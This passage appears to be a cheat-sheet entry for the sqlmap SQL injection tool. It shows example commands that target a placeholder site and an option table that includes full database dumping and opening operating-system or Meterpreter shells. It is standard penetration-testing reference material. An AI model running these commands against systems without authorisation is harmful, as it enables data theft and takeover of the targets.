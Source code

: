 ### sqlmap

Inject SQL code into request parameters:

```fundamental

sqlmap -a -u somesite.com/index.php?username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test -p password

```

| Option | Description |

| --- | --- |

| -u | Target URL |

| -H | Extra HTTP header |

| --data | Data string to be sent through POST |

| --cookie | HTTP Cookie header value |

| --proxy | Use a proxy to connect to the target URL (\[protocol://\]host\[:port\]) |

| -p | Testable parameter(s) |

| --level | Level of tests to perform (1-5, default: 1) |

| --risk | Risk of tests to perform (1-3, default: 1) |

| -a | Retrieve everything |

| -b | Retrieve DBMS banner |

| --dump-all | Dump all DBMS databases tables entries |

| --os-shell | Prompt for an interactive operating system shell |

| --os-pwn | Prompt for an OOB shell, Meterpreter, or VNC |

| --sqlmap-shell | Prompt for an interactive sqlmap shell |

| --wizard | Simple wizard interface for beginner users |